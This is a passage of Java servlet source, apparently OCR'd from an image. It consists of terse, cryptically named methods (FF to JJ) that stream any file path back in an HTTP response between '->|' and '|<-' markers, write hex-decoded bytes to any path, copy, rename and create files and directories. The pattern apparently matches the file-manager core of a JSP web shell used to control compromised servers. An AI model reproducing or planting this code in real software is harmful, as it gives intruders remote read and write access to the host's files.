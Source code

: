       void FF(String s, HttpServletResponse r) throws Exception {  
           int n;  
         byte[] b = new byte[512];  
         r.reset();  
         ServletOutputStream os = r.getOutputStream();  
           BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));  
           os.write(("->" + "|").getBytes(), 0, 3);  
          while ((n = is.read(b, 0, 512)) != -1) {  
               os.write(b, 0, n);  
         }  
       os.write(("|" + "<-").getBytes(), 0, 3);  
           os.close();  
         is.close();  
      }  

      void GG(String s, String d) throws Exception {  
         String h = "0123456789ABCDEF";  
          File f = new File(s);  
          f.createNewFile();  
         FileOutputStream os = new FileOutputStream(f);  
          for (int i = 0; i < d.length(); i += 2) {  
            os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));  
         }  
        os.close();  
      }  

      void HH(String s, String d) throws Exception {  
          File sf = new File(s), df = new File(d);  
           if (sf.isDirectory()) {  
              if (!df.exists()) {  
                  df.mkdir();  
             }  
               File z[] = sf.listFiles();  
              for (int j = 0; j < z.length; j++) {  
                  HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());  
             }  
           } else {  
              FileInputStream is = new FileInputStream(sf);  
               FileOutputStream os = new FileOutputStream(df);  
              int n;  
              byte[] b = new byte[512];  
               while ((n = is.read(b, 0, 512)) != -1) {  
                   os.write(b, 0, n);  
             }  
               is.close();  
               os.close();  
           }  
       }  

       void II(String s, String d) throws Exception {  
           File sf = new File(s), df = new File(d);  
          sf.renameTo(df);  
       }  
    void JJ(String s) throws Exception {  
           File f = new File(s);  
          f.mkdir();  
       }  
